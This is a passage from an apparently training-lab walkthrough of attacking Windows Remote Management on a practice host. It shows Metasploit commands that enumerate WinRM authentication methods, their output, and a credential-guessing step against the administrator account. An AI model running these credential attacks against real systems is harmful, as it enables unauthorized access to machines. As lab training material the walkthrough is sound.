 #### **🎯 Great Discovery! What We Found:**
- **Port 5985 Open** - WinRM HTTP service running
- **Port 5986 Open** - WinRM HTTPS service running  
- **Microsoft HTTPAPI** - Confirms Windows Remote Management
- **Both HTTP/HTTPS** - Multiple connection options available

---

### **Step 2: Test WinRM Authentication**

**What We're Doing:** Checking what authentication methods WinRM supports

#### **Commands Used:**
```bash
use auxiliary/scanner/winrm/winrm_auth_methods
set RHOSTS demo.ine.local  
exploit
```

#### **What Happened:**
```bash
msf6 > use auxiliary/scanner/winrm/winrm_auth_methods
msf6 auxiliary(scanner/winrm/winrm_auth_methods) > set RHOSTS demo.ine.local
RHOSTS => demo.ine.local
msf6 auxiliary(scanner/winrm/winrm_auth_methods) > exploit

[+] 10.0.28.125:5985: Negotiate protocol supported
[+] 10.0.28.125:5985: Basic protocol supported
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

#### **🔍 Authentication Analysis:**
- **Basic Authentication** - Username/password login supported
- **Negotiate Authentication** - Windows integrated authentication
- **Multiple Options** - Can try different credential attacks
- **Service Responsive** - WinRM accepting connections

---

### **Step 3: Attack WinRM Credentials**

**What We're Doing:** Trying to find valid credentials for WinRM access

#### **Commands Used:**
```bash
use auxiliary/scanner/winrm/winrm_login
set RHOSTS demo.ine.local
set USERNAME administrator
set PASSWORD password123
exploit
```

